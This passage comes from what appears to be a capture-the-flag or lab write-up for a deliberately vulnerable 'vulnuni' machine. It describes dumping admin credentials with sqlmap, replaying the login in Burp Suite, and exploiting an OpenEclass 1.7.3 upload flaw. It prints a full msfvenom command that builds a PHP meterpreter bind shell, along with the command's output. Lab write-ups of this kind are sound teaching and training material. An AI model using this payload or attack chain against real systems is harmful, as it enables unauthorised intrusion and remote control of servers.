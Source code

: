     </div>
</div>
<div class="caption">
    SQLmap being used to dump database tables
</div>     

Now that I obtained admin credentials from sqlmap, I logged into the application as the administrator. Once again, the http request was being resolved to vulnuni.local. To actually log into the application, I edited the raw request in burp-suite as shown below. After hitting send, I selected the Render” tab on the response, then right clicked and selected to open up in browser.


<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="vulnuni7.png">
    </div>
</div>
<div class="caption">
    A burpsuite repeater session using the dumped credentials to log into the application as admin
</div>  

Next, I navigated over to the other exploit identified earlier in the exploit-db. This exploit titled “GUnet OpenEclass 1.7.3 E-learning platform – ‘month’ SQL Injection” enables authenticated admins to upload reverse php shell files. To exploit this vulnerability, I used msfvenom to create a php meterpreter bind shell on port 4448.  

```bash
root@kali$ msfvenom -p php/meterpreter/bind_tcp LHOST=192.168.8.130 LPORT=4448 R > bind-meterpreter.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1338 bytes
``` 
